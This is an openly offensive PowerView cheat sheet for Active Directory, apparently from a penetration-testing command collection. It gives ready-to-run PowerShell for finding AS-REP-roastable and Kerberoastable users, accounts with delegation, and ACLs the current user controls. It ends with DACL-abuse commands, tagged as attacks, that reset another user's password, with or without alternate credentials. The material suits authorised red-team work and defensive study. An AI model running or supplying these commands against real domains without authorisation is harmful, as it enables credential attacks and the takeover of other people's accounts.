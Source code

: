 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 

## User - Get ASREPRoastable users
```powershell
Get-NetUser -PreauthNotRequired
```


## User - Get Kerberoastable users
```powershell
Get-NetUser -SPN
```

## User - Find all groups our current user got access
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## User - Find all users our current user got access
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```


## User - Find user accounts that have kerberos constrained delegation 
```powershell
Get-NetUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto
```


## User - Find user accounts that have kerberos unconstrained delegation 
```powershell
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
```


## User - change user password (alternate cred)
#cat/ATTACK/DACL-ABUSE 
```
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
Set-DomainUserPassword -Identity <target_user> -AccountPassword (ConvertTo-SecureString '<new_password|P@ssw0rd123>' -AsPlainText -Force) -Credential $Cred
```

## User - change user password
#cat/ATTACK/DACL-ABUSE 
```
Set-DomainUserPassword -Identity <target_user> -AccountPassword (ConvertTo-SecureString '<new_password|P@ssw0rd123>' -AsPlainText -Force)
```